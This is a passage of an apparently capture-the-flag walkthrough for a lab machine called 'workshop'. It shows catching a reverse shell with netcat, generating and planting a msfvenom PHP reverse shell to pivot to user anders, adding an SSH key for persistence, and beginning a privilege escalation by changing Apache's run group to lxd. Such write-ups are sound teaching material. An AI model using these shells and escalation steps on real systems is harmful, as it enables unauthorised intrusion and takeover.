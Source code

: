 ```
$ nc -nlvp 4242  
listening on [any] 4242 ...  
connect to [10.10.176.115] from (UNKNOWN) [10.10.247.142] 52588  
/bin/sh: 0: can't access tty; job control turned off  
$ id  
uid=1001(devops) gid=1001(devops) groups=1001(devops)
```
Here is our shell ! 🎉 🎉 🎉 

_Note: don't forget to grab /home/devops/user.txt 's flag_

## Flag 6: pivoting to anders

Next step: pivoting (privesc to root is still unachievable). Let's pivot to _anders_, starting with his running processes
```
$ ps -ef | grep anders
anders 776 753 0 18:18 ? 00:00:00 /usr/sbin/apache2 -k start  
anders 777 753 0 18:18 ? 00:00:00 /usr/sbin/apache2 -k start  
anders 778 753 0 18:18 ? 00:00:00 /usr/sbin/apache2 -k start  
anders 779 753 0 18:18 ? 00:00:00 /usr/sbin/apache2 -k start  
anders 780 753 0 18:18 ? 00:00:00 /usr/sbin/apache2 -k start  
devops 13421 13329 0 19:08 ? 00:00:00 grep anders
```

So, anders is running Apache2. Remember ? there was a web server on 80 !

Let's generate a php reverse shell : 
```
$ msfvenom -p php/reverse_php -o shell.php
```
Now, put it on the remote /var/www/html, open a listener, and browse the page /shell.php :
```
$ nc -nlvp 4444  
listening on [any] 4444 ...  
connect to [10.10.176.115] from (UNKNOWN) [10.10.247.142] 50406  
id  
uid=1000(anders) gid=1000(anders) groups=1000(anders),24(cdrom),27(sudo),30(dip),46(plugdev)
```
Another shell, another user (and another flag)

_Note: be kind with yourself and put your public key in /home/anders/.ssh/authorized_keys_ 

## Flag 7: Privesc with lxd -- Note : see a far less tricky version below

Root privilege escalation... This one is tricky.
* First, sudo tells us that we can restart apache2
```
anders@workshop:~$ sudo -ln  
Matching Defaults entries for anders on workshop:  
env_reset, mail_badpass,  
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  
  
User anders may run the following commands on workshop:  
(ALL) NOPASSWD: /sbin/service apache2 restart
```
* Then, we cannot update the service definition... but we can update /etc/apache2/envvars, especially
```
export APACHE_RUN_USER=anders  
export APACHE_RUN_GROUP=anders
```
* We cannot set USER to root - it won't work. But we can set GROUP to whatever we want. I suggest to use lxd (we saw in /etc/passwd that user exists, and you can double-check that group exists if you look at /etc/group)